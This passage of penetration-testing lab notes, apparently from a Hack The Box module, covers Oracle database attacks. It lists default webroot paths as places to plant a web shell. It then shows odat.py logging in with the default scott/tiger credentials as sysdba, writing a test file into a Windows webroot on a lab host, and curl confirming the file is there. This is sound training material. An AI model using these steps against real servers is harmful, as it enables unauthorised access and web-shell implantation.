 ```shell
...SNIP...
```

- Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

#### Oracle RDBMS - File Upload :
```shell
Pwn1Sec@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
Pwn1Sec@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

- Finally, we can test if the file upload approach worked with `curl`. Therefore, we will use a `GET http://<IP>` request, or we can visit via browser.

```shell
Pwn1Sec@htb[/htb]$ curl -X GET http://10.129.204.235/testing.txt

Oracle File Upload Test
```

